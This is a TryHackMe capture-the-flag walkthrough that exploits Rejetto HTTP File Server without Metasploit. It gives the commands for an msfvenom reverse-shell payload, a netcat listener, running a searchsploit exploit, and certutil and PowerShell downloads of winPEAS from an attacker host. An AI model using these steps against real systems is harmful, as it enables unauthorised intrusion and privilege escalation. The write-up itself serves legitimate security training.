


## Task 4: Access and Escalation Without Metasploit 

First, I love that THM goes through rooms with and then with out Metasploit, because some clients and exams don't allow for the use of Metasploit. If you get stuck and need a small hint [Hacksploit](https://www.youtube.com/watch?v=BzmljZkgeSs) has a great walkthrough.

{}
You will not be able to use THM built in AttackBox for this section. A Python server is needed on port 80 and it conflicts with AttackBox.
{} 

First you will want to use searchsploit or the exploit database to find your exploit code. I used ```searchsploit Rejetto HTTP File Server 2.3.x``` and then used the -p flag to view the full exploit path. Once you know where it is you can copy the file to a new location. I used exploit.py on my Desktop.



Once downloaded edit the file with your favorite editor (vim, nano, etc) changing the IP and port to your local IP and a free port. I typically use 1234. ```nano exploit.py```



Then you will want to download the following files to the same location as your exploit.
 - PowerShell PowerUp -``` wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1```
 - Netcat - ```wget https://github.com/andrew-d/static-binaries/blob/0be803093b7d4b627b4d4eddd732e54ac4184b67/binaries/windows/x86/ncat.exe```
 - WinPeas - ```wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/a17f91745cafc5fa43a428d766294190c0ff70a1/winPEAS/winPEASexe/binaries/x86/Release/winPEASx86.exe```

Once those three files are downloaded we need to make a new msfvenom shell with the same IP and port you specified in your exploit.

```msfvenom -p windows/shell_reverse_tcp LHOST=YOUR IP LPORT=1234 -e x86/shikata_ga_nai -f exe -o Advanced.exe```



Now to set up a simple Python server on port 80.

```python3 -m http.server 80```

In a new terminal set up a netcat listener with ```nc -nlvp 1234```

Then in yet another new terminal (this should be your third) we can start the exploit with ```python exploit.py ATTACK IP 8080```

> You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!

> Answer: No answer needed

Going back to our Netcat listener we should have a shell and can ```cd``` to **C:\Users\bill\Desktop**. Once there we can utilize **certutil.exe** to download WinPeas from your local machine.

```certutil.exe -urlcache -split -f http://<attacker ip>/winPEAS.exe```

We can also use PowerShell to do the same.

```powershell -c wget "http://<attacker ip>:8000/winPEAS.exe" -outfile "winPEASx86.exe"```

Next we can run winPeas with ```winPeasx86.exe``` and can see the same vulnerability from before when we used Metasploit.

> What powershell -c command could we run to manually find out the service name? *Format is "powershell -c "command here"*

> Answer: powershell -c "Get-Service"

After this all you have to do is follow the steps in Task 3 to get root!

> Once this command runs, you will see you gain a shell as Administrator on our listener!

> Answer: No answer needed
